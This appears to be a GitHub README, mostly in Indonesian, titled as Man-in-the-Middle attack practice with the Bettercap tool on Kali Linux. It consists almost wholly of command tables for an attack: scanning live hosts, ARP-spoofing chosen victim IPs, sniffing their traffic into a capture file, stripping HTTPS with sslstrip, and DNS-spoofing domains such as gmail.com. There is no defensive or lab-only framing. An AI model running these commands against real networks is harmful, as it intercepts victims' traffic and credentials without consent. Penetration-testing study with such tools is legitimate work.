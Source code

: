 # bettercap.MITM-attack
Man In The Middle attack practice
lebih tepatnya kita meracuni ARP atau Address Resolution Protocol pada jaringan korban. dimana informasi yang berasal dari korban akan diredirect ke komputer Attacker terlebih dahulu sebelum menuju URL tujuan. disini kita akan menggunakan tools Bettercap.

saya menggunakan OS Kali linux. tools ini opsional nya sudah terinstall default. jika menggunakan selain Kali linux install dengan perintah. `sudo apt-get install bettercap`

### COMMAND TO RUN
RUN bettercap tools `sudo bettercap` <br>
#### table command http protocol (no SSL)
| command | information |
|---------|-------------|
| help | to show bettercap option |
| help (option) | to shown specific option information |
| net.probe on | start the net.probe to scan all live host in network |
| help arp.spoof | show information about arp.spoof |
| set arp.spoof.internal true | enable arp.spoof module |
| set arp.spoof.targets (target ip) | spoof victim arp |
| arp.spoof on | enable arp spoof |
| set net.sniff.output (directory to save capt file) | for enable /home/user/Document/pentest.pcap |
| net.sniff on | enable net sniff |

#### table command https protocol (with SSL)
| command | information |
|---------|-------------|
| help https.proxy | shown specific information about https.proxy |
| set https.proxy.sslstrip true | enable https.proxy mode (true) |
| set dns.spoof.address (ip address) | set dns spoofing with IP Address |
| set dns.spoof.domains (domain) | set dns spoofing domain, ex. gmail.com,www.gmail.com,https://gmail.com |
| dns.spoof on | enable dns.spoof |
<br>
<br>
<img src="https://user-images.githubusercontent.com/92193431/173983407-df81ef0a-a41a-46c2-abcb-97bb0db59875.jpeg" />
